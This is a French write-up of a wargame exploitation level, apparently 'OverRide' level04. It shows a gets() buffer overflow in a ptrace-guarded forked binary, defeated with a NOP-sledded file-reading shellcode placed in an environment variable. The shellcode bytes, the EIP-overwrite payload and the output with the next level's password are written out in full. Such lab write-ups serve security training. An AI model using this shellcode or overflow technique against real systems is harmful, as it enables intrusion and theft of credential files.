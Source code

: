 Ce binaire est particulier. 
Tout d'abord un buffer de 32 bytes est declare. Ensuite, le programme fait un `fork`. 
Il va donc se derouler en deux "sous-parties" :

**Le fils :**

Le fils va faire un appel un ptrace() afin qu'il soit trace par le pere et qu'ils puissent "echanger" des signaux.

`ptrace(0, 0, NULL, NULL);`

Ensuite, une string indiquant `Give me some shellcode, k` va etre afficher grace a un puts, puis, via un gets() nous allons 
etre invite a remplir le buffer de 32 bytes : 

    puts("Give me some shellcode, k");
    gets(str);
    
gets() est bien entendu vulnerable aux BoF.

**Le pere :**

Le pere, quant a lui, va se mettre en wait() afin d'attendre que le processus fils s'execute (autrement dit, il va attendre qu'on utilise gets) 
puis en suite il va exit. Cependant, grace a ptrace(), il va aussi verifier que le fils n'utilise pas de syscall `exec()`, auquel cas, nous avons un joli
`no exec() for you` puis un kill.

Nous savons maintenant que nous ne pourrons pas executer un shellcode avec pour instruction "exec".
Le trick sera donc de trouver un shellcode permettant de lire dans un fichier (dans notre cas, /home/users/level05/.pass)

En voici un : http://shell-storm.org/shellcode/files/shellcode-73.php

`export TOTO=$(python -c "print('\x90'*100 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass')")`

Nous avons juste besoin de l'offset necessaire pour ecraser EIP, puis de l'adresse de notre shellcode.
Apres plusieurs tentatives de `print('A'*x)` nous pouvons en deduire que l'offset est de 156.

Nous avons donc notre payload final :

`python -c "print('A'*156 + '\x50\xd8\xff\xff')"`


`level04@OverRide:~$ python -c "print('A'*156 + '\x50\xd8\xff\xff')" | ./level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...`
